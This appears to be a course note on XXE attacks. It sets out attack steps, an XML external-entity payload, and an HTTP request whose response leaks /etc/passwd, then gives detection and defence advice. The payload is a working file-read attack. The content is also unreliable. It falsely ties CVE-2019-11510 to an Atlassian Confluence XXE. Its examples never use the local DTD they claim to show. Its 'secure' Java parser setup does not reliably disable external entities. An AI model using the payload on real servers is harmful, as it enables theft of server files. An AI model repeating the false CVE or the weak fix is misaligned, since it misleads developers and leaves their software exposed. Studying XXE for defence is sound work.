

## XXE Exfiltration with Local DTD

### What is Local DTD?

A local DTD is a DTD that is stored on the server itself rather than being referenced from an external source. Using a local DTD can help bypass certain security restrictions that prevent the use of external DTDs.

### How Does XXE Exfiltration with Local DTD Work?

When an attacker uses a local DTD to perform an XXE attack, they can reference files stored on the server itself. This can be particularly dangerous because it allows the attacker to read sensitive files that are stored locally.

### Steps to Perform an XXE Exfiltration with Local DTD

1. **Identify the Target File**: Determine which file on the server contains sensitive information that you want to exfiltrate.
2. **Create the XML Payload**: Construct an XML document that includes a local DTD reference to the target file.
3. **Send the Payload**: Send the XML payload to the vulnerable application and observe the response.

### Example of an XXE Attack Using Local DTD

Consider the following XML document:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///path/to/sensitive/file">
]>
<foo>&xxe;</foo>
```

In this example, the `<!ENTITY xxe SYSTEM "file:///path/to/sensitive/file">` line defines an external entity named `xxe` that references a file on the server. When this XML document is parsed, the contents of the file at `/path/to/sensitive/file` will be included in the document.

### Real-World Example: CVE-2019-11510

CVE-2019-11510 is a XXE vulnerability found in the Atlassian Confluence application. This vulnerability allowed attackers to read arbitrary files from the server using a local DTD. The vulnerability was exploited in the wild, leading to several data breaches.

### Full HTTP Request and Response Example

Here is a complete HTTP request and response example for an XXE attack using a local DTD:

#### HTTP Request

```http
POST /api/v1/xml-parser HTTP/1.1
Host: vulnerable.example.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Content-Type: text/plain

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
...
```

### Mermaid Diagram: XXE Attack Flow



### Common Pitfalls and Detection

#### Common Pitfalls

- **Improper Input Validation**: Failing to validate and sanitize user-provided XML input can lead to XXE attacks.
- **Allowing External Entities**: Allowing the use of external entities can expose the server to various types of attacks.
- **Insufficient Error Handling**: Improper error handling can reveal sensitive information to attackers.

#### Detection

- **Logging and Monitoring**: Implement logging and monitoring to detect unusual XML parsing activity.
- **Security Scanners**: Use security scanners to identify potential XXE vulnerabilities in your applications.
- **Static Code Analysis**: Perform static code analysis to identify insecure XML parsing practices.

### How to Prevent / Defend Against XXE Attacks

#### Secure Coding Practices

- **Disable External Entities**: Disable the use of external entities in your XML parsers.
- **Validate and Sanitize Input**: Validate and sanitize all user-provided XML input to ensure it does not contain malicious content.
- **Use Secure Libraries**: Use secure libraries and frameworks that are designed to handle XML safely.

#### Configuration Hardening

- **Disable DTD Loading**: Configure your XML parsers to disable DTD loading.
- **Restrict File Access**: Restrict file access permissions to prevent unauthorized access to sensitive files.

#### Example of Secure Code

Here is an example of secure code that disables external entities in an XML parser:

```java
import javax.xml.XMLConstants;
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;

DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
dbFactory.setXIncludeAware(false);
dbFactory.setExpandEntityReferences(false);

DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
```

#### Example of Vulnerable Code

Here is an example of vulnerable code that does not disable external entities:

```java
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;

DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
```

### Practice Labs

For hands-on practice with XXE attacks, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive course on XXE attacks, including practical exercises.
- **OWASP Juice Shop**: A deliberately vulnerable web application that includes XXE vulnerabilities.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that includes XXE vulnerabilities for educational purposes.

By understanding the mechanics of XXE attacks and implementing proper defenses, you can protect your applications from these types of vulnerabilities.

---
<!-- nav -->
[[API Security/22-Offensive XXE Exploitation/20-XXE Exfiltration with local DTD/02-Understanding XML External Entity (XXE) Attacks|Understanding XML External Entity (XXE) Attacks]] | [[API Security/22-Offensive XXE Exploitation/20-XXE Exfiltration with local DTD/00-Overview|Overview]] | [[API Security/22-Offensive XXE Exploitation/20-XXE Exfiltration with local DTD/04-Practice Questions & Answers|Practice Questions & Answers]]
